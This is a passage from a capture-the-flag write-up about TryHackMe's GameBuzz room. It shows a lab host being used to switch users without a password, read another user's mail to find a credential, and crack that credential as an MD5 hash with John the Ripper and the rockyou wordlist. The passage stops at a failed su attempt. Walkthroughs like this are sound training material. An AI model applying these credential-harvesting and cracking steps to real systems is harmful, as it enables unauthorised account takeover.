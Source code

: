 **Also, I found that we can Switch User to `dev2` without password!**
```shell
www-data@incognito:/$ su dev2
dev2@incognito:/$ whoami;hostname;id;ip a
dev2
incognito
uid=1000(dev2) gid=1000(dev2) groups=1000(dev2),24(cdrom),30(dip),46(plugdev),1002(nosu)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:8b:df:7d:19:1f brd ff:ff:ff:ff:ff:ff
    inet 10.10.115.32/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 3516sec preferred_lft 3516sec
    inet6 fe80::8b:dfff:fe7d:191f/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm user `dev2`!

### dev2 to dev1

```shell
dev2@incognito:/$ cat /var/mail/dev1 
Hey, your password has been changed, {Redacted}.
Knock yourself in!
```

Found `dev1` password!

However, it looks like a password hash.

**Let's crack it:**
```shell
┌[root♥siunam]-(~/ctf/thm/ctf/GameBuzz)-[2023.01.24|13:42:44(HKT)]
└> hash-identifier '{Redacted}'                                         
[...]
Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
[...]

┌[root♥siunam]-(~/ctf/thm/ctf/GameBuzz)-[2023.01.24|13:43:35(HKT)]
└> john --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5 dev1.hash
[...]
{Redacted}         (?)
```

**Cracked! Let's Switch User to `dev1`:**
```shell
dev2@incognito:/$ su dev1
Password: 
su: Permission denied
```

